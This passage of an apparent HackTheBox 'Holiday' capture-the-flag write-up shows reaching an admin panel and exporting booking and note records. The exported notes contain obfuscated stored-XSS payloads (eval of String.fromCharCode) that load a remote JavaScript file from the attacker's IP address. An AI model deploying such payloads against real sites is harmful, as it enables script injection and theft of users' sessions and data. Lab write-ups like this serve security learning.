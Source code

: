 Hit F5 to refresh the page and a new Admin button appears:

![bookings_details](/assets/images/2020-06-19-16-27-50.png)

Clicking on that doesn't reveal anything:

![bookings_admin_pane](/assets/images/2020-06-19-16-28-12.png)

However if we try to access the /admin URL we found earlier we now get to a new section:

![bookings_admin_section](/assets/images/2020-06-19-16-28-47.png)

Clicking the two buttons will export the bookings and notes from the system:

```text
root@kali:~/htb/holiday# more export-bookings-1592429801323
1|e2d3f450-bdf3-4c0a-8165-e8517c94df9a|Wilber Schowalter|A697I|Werner.Walsh56@gmail.com|183.0|1497933864607|1498458169878|Alishabury
2|2332eef6-0f05-413a-aac1-ac5772e9dd8a|Sedrick Homenick|3RMYF|Hermann.Gutmann@gmail.com|847.0|1515149552629|1520893749909|New Dedric
3|ffd52467-9fa2-4b9a-90f7-995cbc705055|Miss Gisselle West|PP9VY|Gordon2@hotmail.com|502.0|1515329040778|1521227597426|West Jammie
<SNIP>

root@kali:~/htb/holiday# more export-notes-1592429796838
1|31|<img src="x/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,53,47,104,111,108,105,1
00,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">|1592426141451|1
2|31|<img src="x/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,53,47,105,110,106,101,99,116,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59;</script>">|1592427885495|1
<SNIP>
```
